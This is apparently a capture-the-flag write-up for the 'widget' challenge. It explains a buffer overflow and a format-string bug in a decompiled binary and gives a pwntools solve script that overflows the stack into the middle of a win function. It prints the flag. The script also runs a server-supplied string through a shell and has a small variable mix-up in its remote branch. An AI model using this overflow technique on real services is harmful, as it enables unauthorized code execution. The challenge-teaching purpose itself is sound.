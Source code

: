```c:source
      printf(buffer);
      return;
    }
    if (buffer[(int)local_c] == 'n') break;
    local_c = local_c + 1;
  }
  printf("bad %d\n",(ulong)local_c);
  exit(1);
}
```

We note that in the `main` function there is buffer overflow because we can control the number of bytes we can input with `read`. There is also a format string vulnerability but we will not use it here.

The idea is to exploit the buffer overflow to redirect the execution to the function `win`.

To properly call `win` we need to pass it two arguments, but we do not have enough gadgets in our binary. This is not a problem because we can directly jump in the middle of `win`, just after the parameter checks (address `win+117`) provided that we set up the `rbp` register to a valid address, for instance, an address in the data section.

```python:solve.py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./widget")
context.log_level = "debug"
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript='''
                      b *main+341
                      c
                      ''')
    else:
        r = remote("challs.actf.co", 31320)
        p.recvuntil(b'proof of work: ')
        data=p.recvline().strip()
        p1 = process(data, shell=True)
        solution=p1.recvline()
        p.sendlineafter(b'solution: ', solution)
    return r

offset = 32   # we fill until rbp, we set rbp to the address 0x404100
payload = b'A'*offset + p64(0x404100) + p64(exe.symbols.win + 117)

p = conn()

p.sendlineafter(b'Amount: ', b'100')
p.sendafter(b'Contents: ', payload)
p.interactive()
```

🏁 _actf{y0u_f0und_a_usefu1_widg3t!_30db5c45a07ac981}_{: .spoiler}
